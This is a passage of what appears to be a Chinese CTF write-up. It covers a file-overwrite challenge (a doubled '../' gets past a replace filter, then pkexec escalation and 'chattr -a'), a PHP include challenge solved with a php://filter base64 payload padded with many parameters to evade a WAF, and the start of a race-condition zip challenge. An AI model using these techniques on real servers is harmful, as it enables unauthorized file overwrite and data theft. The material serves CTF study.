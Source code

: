 

可以将上传的文件写入，但是还要传个id，并且最终拼接成了路径是已存在的文件。
也就是说可以覆盖已有文件。
那么我们可以直接覆盖一个php文件。首页里面有个navigate_info.php，可以覆盖。
问题来了，对传入的id进行了替换，将…/替换成了空。
不过不要紧，可以采用`双写绕过`的方式。

学到了的姿势：对于replace这种，替换，就可以利用双写绕过



拿到马后，需要`pkexec`提权

然后需要删除掉网站根目录下的bocai.html、bocai.png，发现 bocai.html 和 bocai.png 不能删、不能移动

利用 chattr -a bocai* 命令去除该属性

最后执行flag的可执行文件就可。

##  简单包含

考点：就是一个php的伪协议读文件内容

这个题有点脑洞

直接读flag.php是返回waf的

```
<?php 
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php;
```

最后的是需要传入很多参数就可以读flag

```php
1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&flag=php://filter/convert.base64-encode/resource=flag.php
```

##  压缩包

考点：条件竞争

```php
<?php
highlight_file(__FILE__);

function removedir($dir){
    $list= scandir($dir);
    foreach ($list as  $value) {
        if(is_file($dir.'/'.$value)){
            unlink($dir.'/'.$value);
        }else if($value!="."&&$value!=".."){
            removedir($dir.'/'.$value);
        }
    }
}
//传进来一个文件名，"/tmp/".md5($content)
function unzip($filename){
    $result = [];
```